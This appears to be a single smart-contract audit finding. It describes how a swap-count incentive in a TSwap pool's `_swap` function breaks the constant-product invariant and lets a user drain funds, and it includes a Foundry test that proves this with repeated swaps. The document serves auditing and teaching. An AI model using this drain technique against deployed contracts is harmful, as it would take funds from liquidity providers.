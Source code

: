 **Description:** The protocol follows a strict invariant of `x * y = k`, where:
- `x` is the balance of the pool token,
- `y` is the balance of WETH,
- `k` is the constant product of the two balances.

This means that, whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that overtime the protocol funds will be drained.

```javascript
swap_count++;
if (swap_count >= SWAP_COUNT_MAX) {
    swap_count = 0;
    outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
}
```

**Impact:** A user could maliciously drain the protocol of funds by doing multiples swaps and collecting the extra incentive given out by the protocol. This breaks the invariant `k`.

**Proof of Concept:** Run this test on your `TSwapPool.t.sol` unit suite:
```javascript
function testInvariantBroken() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();

    uint256 outputWeth = 1e17;
    vm.startPrank(user);
    poolToken.mint(user, 100e18);
    poolToken.approve(address(pool), type(uint256).max);
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

    int256 startingY = int256(weth.balanceOf(address(pool)));
    int256 expectedDeltaY = int256(-1) * int256(outputWeth);
    // The 10th swap gives the incentive, breaking the invariant
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    vm.stopPrank();

    uint256 endingY = weth.balanceOf(address(pool));
    int256 actualDeltaY = int256(endingY) - int256(startingY);
    // This assertion will fail
    assertEq(actualDeltaY, expectedDeltaY);
}
```

